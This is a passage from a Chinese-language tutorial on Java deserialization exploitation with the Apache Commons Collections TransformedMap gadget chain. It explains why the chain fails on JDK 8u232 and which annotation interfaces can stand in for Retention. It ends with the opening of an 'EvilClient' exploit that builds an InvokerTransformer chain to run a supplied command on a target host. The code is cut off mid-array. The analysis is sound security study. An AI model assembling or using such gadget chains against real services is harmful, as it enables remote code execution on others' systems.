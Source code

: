 ```java
      }
    }
  }
```

8u232的AnnotationInvocationHandler.readObject()中没有setValue()，单凭这一
点就知道本次演示方案针对8u232不能得手，都不用考虑是否有其他安全增强，因为
本次演示方案原理上要求有机会执行setValue()。不理解这个说法的，可以再品位一
下TransformedMapExec.java。

不少文章讲TransformedMap利用链时说只适用于JDK 7，不适用于JDK 8。且不说其中
细节，哪有这么粗放的结论？你得写成功的版本、失败的版本，这是最低要求，如果
有能力有精力，就再写写为什么成功，为什么失败。没有确切把握，别瞎用肯定语气
把一个大版本给代表了。

8.2.8) AnnotationInvocationHandler()第一形参还能使用其他接口吗

构造函数原型是:

AnnotationInvocationHandler(Class<? extends Annotation> type, Map<String, Object> memberValues)

第一形参type必须是Annotation的子接口。基本上你能看到的PoC，第一形参都是
Retention。此处还能用哪些接口？

关于Annotation，参[51]，快速过一遍即可。

在"package java.lang.annotation"中找继承了Annotation接口的接口，该接口至少
有一个抽象方法，这个抽象方法必须无参，否则前面那个AnnotationType()不会向
memberTypes中添加元素。如果memberTypes是空的，流程不会触发setValue()。基于
这些信息，可以找到符合要求的接口:

java.lang.annotation.Retention
java.lang.annotation.Target
java.lang.annotation.Repeatable

这几个接口都只有一个无参方法value()，所以不论用哪个接口，Map的key都只能是
"value"这个字符串。

8.2.9) EvilClientWithTransformedMap2.java

```java
*
 * javac -encoding GBK -g -cp "commons-collections-3.1.jar" EvilClientWithTransformedMap2.java
 */
import java.io.*;
import java.net.*;
import java.util.*;
import java.lang.annotation.*;
import java.lang.reflect.Constructor;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.*;
import org.apache.commons.collections.map.TransformedMap;

public class EvilClientWithTransformedMap2
{
    @SuppressWarnings("unchecked")
    public static void main ( String[] argv ) throws Exception
    {
        String              addr        = argv[0];
        int                 port        = Integer.parseInt( argv[1] );
        String              cmd         = argv[2];
        Transformer[]       tarray      = new Transformer[]
        {
            new ConstantTransformer( Runtime.class ),
            new InvokerTransformer
            (
                "getMethod",
                new Class[]
                {
```